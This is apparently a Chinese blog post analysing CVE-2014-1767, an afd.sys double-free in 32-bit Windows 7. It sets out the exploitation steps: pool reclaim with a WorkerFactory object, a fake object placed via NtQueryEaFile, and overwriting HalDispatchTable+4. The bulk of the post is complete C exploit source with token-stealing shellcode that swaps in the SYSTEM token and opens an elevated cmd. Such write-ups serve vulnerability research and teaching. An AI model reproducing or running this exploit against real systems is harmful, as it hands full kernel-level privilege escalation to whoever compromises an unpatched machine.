


# CVE-2014-1767 利用分析（2015.2） - 會飛的貓 - 博客园

> 原文：[`www.cnblogs.com/flycat-2016/p/5450328.html`](https://www.cnblogs.com/flycat-2016/p/5450328.html)

**CVE-2014-1767 利用分析**

参考这篇[文章](http://www.secniu.com/cve-2014-1767-afd-sys-double-free-vulnerability-analysis-and-exploit/)利用思路,重现利用，主要说明自己在实现的时候遇到的坑。

**利用思路**

1\. 第一次 IoControl，释放 MDL，我们通过 VirtualAddress 和 Length 设置此时被释放 的 MDL 内存大小为 0xA0。

2\. NtCreateWorkerFactory 申请新的 WorkerFactoy 对象，占据【1】中被释放掉的内 存。

3\. 第二次 IoControl，double free 会释放掉刚刚申请的 WorkerFactoy 对象。

4\. NtQueryEaFile 把我们精心设置的内容，填充到刚被释放掉的 WorkerFactory 对象内存空间(UAF)。

5\. NtSetInformationWorkerFactory 操作我们的 fake object，达到修改 HalDispatchTable+4 内容为 shellcode(功能是使用系统 token 覆盖当前进行 token)。

6\. 用户层调用 NtQueryIntervalProfile，触发内核执行 shellcode。

7\. 当前进行已经是管理员权限了，创建的子进程也具有相同的权限，提权完成。

**一些坑和解释**

1\. 将初始化的操作都放在第一次 IoControl 之前，使【1】和【2】的时间间隔最小，这样占位成功的机会最大，但仍有占位不成功的时候，原因未知。

2\. 所构造的 fake WorkerFactory object 数据如下：



object header 和 object body 是需要我们来布置的。

object header 来自一个创建的 object 的部分。

object body 部分其实就两个位置+00h 和+10h，为了最后 NtSetInformationWorkerFactory 函数中的这条语句：*(*(*object+0x10)+0x1C) = *arg3，使左边的语句为 HalDispatchTable+4。

其他置于 0 就可以了。

3\. 分配的内存数据：



4\. NtQueryEaFile 的参数 EaListLength 必须为 0x98，因为这样才可以保证【4】的正常执行。

5\. NtSetInformationWorkerFactory 函数的每一个参数都非常重要，不可以设置为其他的值，这都是跟踪得到能够到达目标代码的参数结果。6. NtQueryIntervalProfile 的第一个参数也十分重要，等于 2 的时候才会走向调用 HalDispatchTable+4 的流程中去。

7.Shellcode 中，提权结束后会做一些善后处理，将 hWorkerFactory 在 HandleTableEntry 的入口设置为 NULL，不然提权进程结束后会蓝屏。因为我们已经破坏掉 hWorkerFactory 所对应的内核结构了，系统会对其进行清理操作的时候就会出问题。

遗留问题：HalDispatchTable+4 的恢复问题，暂时不知道怎么读取其对应函数的地址。不过这个函数调用不是特别频繁，还是可以清楚的看到结果。


exp 代码如下：

```
//CVE-2014-1767 exp for win7 32bit //by 会飞的猫 2015.2.4 //complied with VS2013
#include <windows.h> #include <stdio.h>
#pragma comment(lib, "WS2_32.lib")

#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0) typedef LPVOID PEPROCESS;

typedef NTSTATUS(__stdcall *_NtCreateWorkerFactory)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T);
typedef NTSTATUS(__stdcall *_NtQueryEaFile)(HANDLE, PVOID, PVOID, ULONG, BOOLEAN, PVOID, ULONG, PULONG, BOOLEAN);
typedef NTSTATUS(__stdcall *_ZwAllocateVirtualMemory)(HANDLE, PVOID, ULONG, PULONG, ULONG, ULONG);
typedef NTSTATUS(__stdcall *_NtQuerySystemInformation)(ULONG, PVOID, ULONG, PULONG);
typedef NTSTATUS(__stdcall *_NtSetInformationWorkerFactory)(HANDLE, ULONG, PVOID, ULONG);
typedef NTSTATUS(__stdcall *_NtQueryIntervalProfile)(DWORD,PULONG);
typedef NTSTATUS(__stdcall *_PsLookupProcessByProcessId)(DWORD, LPVOID *);
typedef NTSTATUS(__stdcall *_NtQueryInformationWorkerFactory)(HANDLE, LONG, PVOID, ULONG, PULONG);

typedef struct _IO_STATUS_BLOCK {
    union {
        NTSTATUS Status;
        PVOID Pointer;
    };
    ULONG_PTR Information;
} IO_STATUS_BLOCK, *PIO_STATUS_BLOCK;

typedef struct _RTL_PROCESS_MODULE_INFORMATION {
    HANDLE Section; // Not filled in
 PVOID MappedBase;
    PVOID ImageBase;
    ULONG ImageSize;
    ULONG Flags;
    USHORT LoadOrderIndex;
    USHORT InitOrderIndex;
    USHORT LoadCount;
    USHORT OffsetToFileName;
    UCHAR  FullPathName[256];
} RTL_PROCESS_MODULE_INFORMATION, *PRTL_PROCESS_MODULE_INFORMATION;

typedef struct _RTL_PROCESS_MODULES {
    ULONG NumberOfModules;
    RTL_PROCESS_MODULE_INFORMATION Modules[1];
} RTL_PROCESS_MODULES, *PRTL_PROCESS_MODULES;

_NtCreateWorkerFactory NtCreateWorkerFactory;
_NtQueryEaFile NtQueryEaFile;
_ZwAllocateVirtualMemory ZwAllocateVirtualMemory;
_NtQuerySystemInformation NtQuerySystemInformation;
_NtSetInformationWorkerFactory NtSetInformationWorkerFactory;
_NtQueryIntervalProfile NtQueryIntervalProfile;
_PsLookupProcessByProcessId PsLookupProcessByProcessId;
_NtQueryInformationWorkerFactory NtQueryInformationWorkerFactory;

HANDLE hWorkerFactory;
LPVOID AllocAddr = (LPVOID)0x20000000;
ULONG uHalDispatchTable = 0;
HMODULE ntoskrnl;
ULONG ntoskrnlBase;
PVOID pHaliQuerySystemInformation=NULL; int GetNtdllFuncAddr()
{
    HMODULE ntdll = GetModuleHandle("ntdll.dll");

    NtCreateWorkerFactory = (_NtCreateWorkerFactory)(GetProcAddress(ntdll, "NtCreateWorkerFactory")); if (NtCreateWorkerFactory == NULL)
    {
        printf("Get NtCreateWorkerFactory Address Error:%d", GetLastError());
        CloseHandle(ntdll); return -1;
    } //NtQueryEaFile
    NtQueryEaFile = (_NtQueryEaFile)GetProcAddress(ntdll, "NtQueryEaFile"); if (NtQueryEaFile == NULL)
    {
        printf("Get NtQueryEaFile Address Error:%d", GetLastError()); return -1;
    } //ZwAllocateVirtualMemory
    ZwAllocateVirtualMemory = (_ZwAllocateVirtualMemory)GetProcAddress(ntdll, "ZwAllocateVirtualMemory"); //NtQuerySystemInformation
    NtQuerySystemInformation = (_NtQuerySystemInformation)GetProcAddress(ntdll, "NtQuerySystemInformation"); if (NtQuerySystemInformation == NULL)
    {
        printf("Get NtQuerySystemInformation Address Error:%d", GetLastError()); return -1;
    } //NtSetInformationWorkerFactory
    NtSetInformationWorkerFactory = (_NtSetInformationWorkerFactory)(GetProcAddress(ntdll, "NtSetInformationWorkerFactory")); if (NtSetInformationWorkerFactory == NULL)
    {
        printf("Get NtSetInformationWorkerFactory Address Error:%d", GetLastError()); return -1;
    } //_NtQueryIntervalProfile
    NtQueryIntervalProfile = (_NtQueryIntervalProfile)(GetProcAddress(ntdll, "NtQueryIntervalProfile")); if (NtQueryIntervalProfile == NULL)
    {
        printf("Get NtQueryIntervalProfile Address Error:%d", GetLastError()); return -1;
    } //get uHalDispatchTable
 RTL_PROCESS_MODULES module;
    memset(&module, 0, sizeof(RTL_PROCESS_MODULES));
    NTSTATUS status = NtQuerySystemInformation(11, &module, sizeof(RTL_PROCESS_MODULES), NULL); if (status != 0xC0000004)    //STATUS_INFO_LENGTH_MISMATCH
 {
        printf("Get module Address Error:%d", GetLastError()); return -1;
    }
    ntoskrnlBase = (ULONG)module.Modules[0].ImageBase;
    ntoskrnl = LoadLibrary((LPCSTR)(module.Modules[0].FullPathName + module.Modules[0].OffsetToFileName)); if (ntoskrnl == NULL)
    {
        printf("LoadLibrary ntoskrnl.exe fail!\n"); return -1;
    }
    uHalDispatchTable = (ULONG)GetProcAddress(ntoskrnl, "HalDispatchTable") - (ULONG)ntoskrnl + ntoskrnlBase; if (uHalDispatchTable == 0)
    {
        printf("Get HalDispatchTable Error:%d\n", GetLastError()); return -1;
    } //printf("HalDispatchTable Address:0x%x!\n", uHalDispatchTable); //PsLookupProcessByProcessId
    PsLookupProcessByProcessId = (_PsLookupProcessByProcessId)((ULONG)GetProcAddress(ntoskrnl, "PsLookupProcessByProcessId") - (ULONG)ntoskrnl + ntoskrnlBase); if (PsLookupProcessByProcessId == NULL)
    {
        printf("Get PsLookupProcessByProcessId Address Error:%d", GetLastError()); return -1;
    }
    CloseHandle(ntdll); return 0;
} /*int CreateWorkerFactory()
{
    HANDLE hCompletionPort = CreateIoCompletionPort(INVALID_HANDLE_VALUE, NULL, 1337, 4);

    DWORD Exploit;
    NTSTATUS status = NtCreateWorkerFactory(&hWorkerFactory, GENERIC_ALL, NULL, hCompletionPort, (HANDLE)-1, &Exploit, NULL, 0, 0, 0);
    if (!NT_SUCCESS(status))
    {
        printf("NtCreateWorkerFactory fail!Error:%d\n", GetLastError());
        return -1;
    }
    return 0;
}*/
int MyNtQueryEaFile()
{
    NTSTATUS status;
    IO_STATUS_BLOCK StatusBlock;

    status = NtQueryEaFile(NULL, (PIO_STATUS_BLOCK)&StatusBlock, NULL, NULL, FALSE, AllocAddr, 0x98, NULL, TRUE); return 0;
} //shellcode 代码
void shellcode()
{
    PEPROCESS pCur, pSys;
    DWORD dwSystemProcessId = 4;
    DWORD dwCurProcessId = GetCurrentProcessId();
    PsLookupProcessByProcessId(dwCurProcessId, &pCur);
    PsLookupProcessByProcessId(dwSystemProcessId, &pSys); //replace current process`s token with system token
    *(PVOID *)((DWORD)pCur + 0xf8) = *(PVOID *)((DWORD)pSys + 0xf8); //set our handle`s HandleTableEntry with NULL to avoid bugcheck
    PULONG ObjectTable = *(PULONG *)((ULONG)pCur + 0x0f4);
    PULONG HandleTableEntry = (PULONG)(*(ULONG*)(ObjectTable)+2 * ((ULONG)hWorkerFactory & 0xFFFFFFFC)); *HandleTableEntry = NULL; //dec handle reference by 1
    *(ObjectTable + 0x30) -= 1; //restore HalDispatchTable+4 to avoid bugcheck //*(DWORD*)(uHalDispatchTable + 4) = (DWORD)pHaliQuerySystemInformation;
} int MyNtSetInformationWorkerFactory()
{
    DWORD* tem = (DWORD*)malloc(0x20);
    memset(tem, 'A', 0x20);
    tem[0] = (DWORD)shellcode;

    NTSTATUS status = NtSetInformationWorkerFactory(hWorkerFactory, 0x8, tem, 0x4); return 0;
} void CreatNewCmd()
{
    STARTUPINFO         StartupInfo;
    PROCESS_INFORMATION ProcessInfo;

    memset(&StartupInfo, 0, sizeof(StartupInfo));
    memset(&ProcessInfo, 0, sizeof(ProcessInfo));

    StartupInfo.cb = sizeof(STARTUPINFO);
    StartupInfo.wShowWindow = 0;
    StartupInfo.dwFlags = 0;
    CreateProcess(0, "cmd", 0, 0, 0, CREATE_NEW_CONSOLE, 0, 0, &StartupInfo, &ProcessInfo);
    WaitForSingleObject(ProcessInfo.hProcess, 60000);
    CloseHandle(ProcessInfo.hProcess);
    CloseHandle(ProcessInfo.hThread);
} void GetHaliQuerySystemInformation()
{ static BYTE kernelRetMem[0x60];
    memset(kernelRetMem, 0, sizeof(kernelRetMem));

    NtQueryInformationWorkerFactory(hWorkerFactory, 7,
        kernelRetMem, 0x60,
        NULL);

    pHaliQuerySystemInformation = *(PVOID *)(kernelRetMem + 0x50);
    printf("uHaliQuerySystemInformation: %p\n", pHaliQuerySystemInformation); return;
} int main()
{
    printf("----------------------------------------\n");
    printf("****CVE-2014-1767 exp for win7 32bit****\n");
    printf("****by flycat 2015.2.4****\n");
    printf("----------------------------------------\n");
    printf("\n\n\n\n");
    DWORD targetSize = 0xA0;
    DWORD virtualAddress = 0x13371337;
    DWORD Length = ((targetSize - 0x1C) / 4 - (virtualAddress % 4 ? 1 : 0)) * 0x1000; static DWORD inbuf1[100];
    memset(inbuf1, 0, sizeof(inbuf1));
    inbuf1[6] = virtualAddress;
    inbuf1[7] = Length; static DWORD inbuf2[100];
    memset(inbuf2, 0, sizeof(inbuf2));
    inbuf2[0] = 1;
    inbuf2[1] = 0x0AAAAAAA;

    WSADATA WSAData;
    SOCKET s;
    sockaddr_in sa; int ier;

    WSAStartup(0x2, &WSAData);
    s = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    memset(&sa, 0, sizeof(sa));
    sa.sin_port = htons(135);
    sa.sin_addr.S_un.S_addr = inet_addr("127.0.1");
    sa.sin_family = AF_INET;
    ier = connect(s, (const struct sockaddr *)&sa, sizeof(sa)); static char outBuf[100];
    DWORD bytesRet; int nRet = 0; //get some kernel function addresses
    nRet = GetNtdllFuncAddr(); if (nRet != 0)
    { return -1;
    } //allocate  memory and set some data
    DWORD uRegionSize = 0x200;
    NTSTATUS status = ZwAllocateVirtualMemory(GetCurrentProcess(), &AllocAddr, 0, &uRegionSize,
        MEM_COMMIT | MEM_RESERVE | MEM_TOP_DOWN,
        PAGE_EXECUTE_READWRITE); if (!NT_SUCCESS(status))
    {
        printf("Allocate Mem Failed :%d\n", GetLastError()); return -1;
    }

    memset(AllocAddr, 0, 0x200);
    __asm
    {
        pushad
            mov eax, AllocAddr
            mov dword ptr[eax + 4], 0xa8 mov dword ptr[eax + 10h], 2 mov dword ptr[eax + 14h], 1 mov dword ptr[eax + 1ch], 80016h
            mov dword ptr[eax + 28h], 20000028h
            mov ebx, uHalDispatchTable
            sub ebx, 18h
            mov dword ptr[eax + 38h], ebx
            popad
    } //wait 2 second 
    ::Sleep(2000); //first IoControl
    DeviceIoControl((HANDLE)s, 0x1207F, (LPVOID)inbuf1, 0x30, outBuf, 0, &bytesRet, NULL); //Create a Workerfactory object to occupy the free Mdl pool
    HANDLE hCompletionPort = CreateIoCompletionPort(INVALID_HANDLE_VALUE, NULL, 1337, 4);
    DWORD Exploit;
    status = NtCreateWorkerFactory(&hWorkerFactory, GENERIC_ALL, NULL, hCompletionPort, (HANDLE)-1, &Exploit, NULL, 0, 0, 0); if (!NT_SUCCESS(status))
    {
        printf("NtCreateWorkerFactory fail!Error:%d\n", GetLastError()); return -1;
    } //try to read HaliQuerySystemInformation address but failed //GetHaliQuerySystemInformation(); //second IoControl //free the Workerfactory object we create just now
    DeviceIoControl((HANDLE)s, 0x120C3, (LPVOID)inbuf2, 0x18, outBuf, 0, &bytesRet, NULL); //NtQueryEaFile will allocate a pool with the same size of Workerfactory object,and //memcpy our data to the Workerfactory object,mainly change Workerfactory object+0x10 to //HalDispatchTable+4
 MyNtQueryEaFile(); //change HalDispatchTable+4 to our shellcode address
 MyNtSetInformationWorkerFactory(); //Trigger from user mode
    ULONG temp = 0;
    status = NtQueryIntervalProfile(2, &temp); if (!NT_SUCCESS(status))
    {
        printf("NtQueryIntervalProfile fail!Error:%d\n", GetLastError()); return -1;
    }
    printf("done!\n"); //Sleep(000); //Create a new cmd process with current token
    printf("Creating a new cmd...\n");
    CreatNewCmd(); return 0;
}
```

by：会飞的猫
转载请注明:http://www.cnblogs.com/flycat-2016